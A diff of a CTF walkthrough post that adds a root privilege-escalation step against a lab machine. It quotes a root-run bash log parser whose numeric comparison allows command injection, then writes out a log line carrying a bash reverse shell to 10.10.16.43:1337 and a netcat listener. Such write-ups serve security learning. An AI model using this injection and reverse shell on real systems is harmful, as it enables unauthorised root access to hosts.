

Before and after one commit to L3B0W5K1/ctf-walkthroughs, a Markdown page: posts/post-0.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/posts/post-0.md
+++ b/posts/post-0.md
@@ -210,3 +210,33 @@ Running pspy tool tool to monitor running processes without the need for root pr
 2025/09/04 21:38:01 CMD: UID=0     PID=1675350 | /bin/bash /opt/log_analyse.sh /var/www/web/cloud-gateway/log/application.log
 2025/09/04 21:38:01 CMD: UID=0     PID=1675351 | /bin/bash /opt/log_analyse.sh /var/www/web/cloud-gateway/log/application.log
 ```
+
+
+
+```
+analyze_http_statuses() {
+    # Process HTTP status codes
+    while IFS= read -r line; do
+        code=$(echo "$line" | grep -oP 'Status: \K.*')
+        found=0
+        # Check if code exists in STATUS_CODES array
+        for i in "${!STATUS_CODES[@]}"; do
+            existing_entry="${STATUS_CODES[$i]}"
+            existing_code=$(echo "$existing_entry" | cut -d':' -f1)
+            existing_count=$(echo "$existing_entry" | cut -d':' -f2)
+            if [[ "$existing_code" -eq "$code" ]]; then
+                new_count=$((existing_count + 1))
+                STATUS_CODES[$i]="${existing_code}:${new_count}"
+                break
+            fi
+        done
+    done < <(grep "HTTP.*Status: " "$LOG_FILE")
+}
+```
+
+
+rm -f /var/www/web/user-management-service/log/application.log
+echo 'HTTP Status: x a[$(bash -i >& /dev/tcp/10.10.16.43/1337 0>&1)]' > /var/www/web/user-management-service/log/application.log
+
+
+nc -l 1337
````
